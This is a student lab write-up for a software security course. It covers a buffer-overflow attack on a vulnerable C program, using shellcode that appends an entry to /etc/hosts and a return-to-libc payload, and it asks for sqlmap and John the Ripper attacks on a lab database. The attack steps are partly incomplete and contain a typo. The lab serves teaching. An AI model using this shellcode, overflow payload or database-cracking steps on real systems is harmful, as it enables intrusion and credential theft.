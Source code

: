 # Lab #1,22110044,Nguyen Nguyen Toan Khoa, INSE331280E_02FIE
# Task 1: Software buffer overflow attack
 Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  
**Answer 1**: Must conform to below structure:
Description text (optional)
For this lab, i will use a docker container to do. It will be mapped to my Seclabs directoy
![alt text](image-38.png)
Then i will compile C asm program and C program to executable code
![alt text](image-37.png)
I will use an older bash and turn off randomly given stack value.
`sudo sysctl -w kernel.randomize_va_space=0`
![alt text](image-39.png)
The stack frame of main function
![alt text](image-32.png)
The pwd of the copy_file: 
![alt text](image-40.png)
Create a global environment varibale using `export my_path="/home/seed/seclabs/copy_file"`
I will find the address of system and exit and that string of varibale:
![alt text](image-41.png)
Address value of system: 0xf7e50db0 will be inserted with format \xb0\x0d\xe5\xf7

Address value of exit: 0xf7e449e0 will be inserted with format \xe0\x49\xe4\f7

Address value of the string of env: 0xffffd94c will be inserted with format \x4c\xd9\xff\xff

So the command will be:
`r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x4c\xd9\xff\xff')")`

And the output: 

error



# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
  ![alt text](image-42.png)
- Install sqlmap.
  ![alt text](image-43.png)
  ![alt text](image-45.png)
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 
  ![alt text](image-46.png)

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
![alt text](image-47.png)
![alt text](image-48.png)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:





